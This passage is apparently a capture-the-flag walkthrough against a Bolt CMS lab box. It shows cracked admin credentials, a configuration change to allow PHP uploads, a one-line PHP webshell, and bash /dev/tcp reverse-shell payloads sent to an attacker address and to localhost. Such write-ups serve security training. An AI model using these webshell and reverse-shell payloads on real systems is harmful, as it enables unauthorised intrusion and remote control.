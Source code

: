 After a while it gets cracked and the password of _admin_ is:
> strawberry

Login with the credentials work on the Bolt login page:
```
http://10.10.10.159/bolt/bolt/login   
```

### Exploiting Bolt

Creating PHP webshell that will be uploaded (_shell.php_):
```
<?php system($_REQUEST['cmd']); ?>
```

Changing the configuration in **Bolt** to accept PHP files:
```
Configuration --> Main configuration --> Line 240: accept_file_types: [php, twig, html(...)]
```

> NOTE: There runs a cleanup script in the background that removes the changes regularly, so the next steps have do be done fast or several times

Uploading _shell.php_:
```
File Management --> Uploaded files --> Select file... --> Upload file
```

Now there is a link to the webshell and the output of `whoami` shows _www-data_:
```
http://10.10.10.159/bolt/files/shell.php?140d00115b&cmd=whoami
```

Lets execute a reverse shell command:
```
POST /bolt/files/shell.php HTTP/1.1
Host: 10.10.10.159
(...)
140d00115=&cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'
```

Unfortunately it does not connect back to the reverse shell, so there are probably firewall rules that block this.
As we have access to the box with _bolt_, it is possible to read the _/etc/iptables.conf_ file to identify the problem:
```
(...)
-A OUTPUT -d 10.0.0.0/8 -p tcp -m tcp --tcp-flags FIN,SYN,RST,ACK SYN -j DROP
(...)
```

It is preventing TCP-handshakes to outbound, but as we are logged in on the box anyway, a listener can be started on the box instead:
```
nc -lvnp 9001
```

Sending the request to 127.0.0.1:
```
POST /bolt/files/shell.php HTTP/1.1
Host: 10.10.10.159
(...)
ba409963f1=&cmd=bash -c 'bash -i >& /dev/tcp/127.0.0.1/9001 0>&1'
```
